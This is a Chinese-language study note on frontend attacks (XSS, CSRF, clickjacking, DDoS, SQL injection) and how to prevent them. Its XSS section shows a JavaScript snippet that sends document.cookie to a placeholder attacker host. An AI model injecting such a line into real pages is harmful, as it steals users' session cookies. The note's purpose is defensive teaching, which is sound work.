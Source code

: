 # 前端攻击手段有哪些该如何预防？

## 1. XSS

Cross Site Script 跨站脚本攻击。

- 手段：黑客将 JS 代码插入到网页内容中，渲染时执行 JS 代码。
- 预防：特殊字符替换。

```javascript
let img = document.createElement("image");
img.src = 'http://xxx/api?cookie' + document.cookie;
// img 元素一旦附上 src 属性就会发送 http 请求，这时候就把本网站的 cookie 传到了黑客自己的服务器了
```

预防就是将特殊符号替换，比如将 `>` 替换成 `&gt;`，`<` 替换成 `&lt;` ，这样 `<script>` 标签里面的危险代码就不会执行了。

Vue、Angular 中插值表达式（{{}}）和 React 中变量（{}），默认屏蔽了 XSS 攻击，即便在里面写脚本也不会发生 XSS 攻击。除了这几种情况：

- 在 Vue `v-html` 中使用脚本
- 在 React `dangerouslySetInnerHTML` 中使用脚本
- 在 Angular `InnerHTML` 中使用脚本

## 2. CSRF

Cross Site Request Forgery 跨站请求伪造。

- 手段：黑客诱导用户去访问另一个网站的接口，伪造请求。
- 预防：严格的跨域限制，加验证码机制。

### 2.1. CSRF 详细过程

- 用户登录了 A 网站，有了 cookie。
- 黑客诱导用户进入了 B 网站，并发起了 A 网站的请求。
- A 网站的用户发现 API 有 cookie，认为是用户自己操作的。

### 2.2. 预防手段

- 严格的跨域请求限制，如 referrer （请求来源） 。
- 为 cookie 设置 SameSite, 禁止跨域传递 cookie。
- 关键接口加上短信验证码。

## 3. 点击劫持

Click Jacking

- 手段：界面上蒙一个透明的 iframe，诱导用户点击。
- 预防：让 iframe 不能跨域加载。

![点击劫持预防手段](./images/点击劫持预防手段.png)
![点击劫持预防手段](./images/点击劫持预防手段2.png)

## 4. DDos

Distribute denial-of-service 分布式拒绝服务。

- 手段：分布式、大规模的流量访问，使服务器瘫痪。
- 预防：软件层不好做，需要硬件预防。

比如黑客散播了一个病毒程序，植入很多人的手机，使这些人的手机同时去访问某一网站，致使服务瘫痪。

## 5. SQL 注入

- 手段：黑客提交内容时写入 SQL 语句，破环数据库。
- 预防：处理特殊字符，替换特殊字符。
